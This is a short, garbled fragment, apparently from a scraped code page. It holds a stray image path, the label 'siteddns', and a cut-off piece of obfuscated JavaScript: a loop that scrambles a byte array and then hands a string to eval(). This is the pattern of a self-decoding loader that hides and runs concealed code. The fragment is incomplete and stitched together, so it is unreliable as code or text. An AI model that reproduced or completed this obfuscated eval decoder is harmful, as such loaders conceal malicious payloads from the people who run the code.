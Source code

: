  # siteddns
=1;){pb[rb]=(-((~((pb[rb]+pb[rb-1])&0xff))&0xff))&0xff;rb--;}";eval(rb);rb="rb=3;while(rb

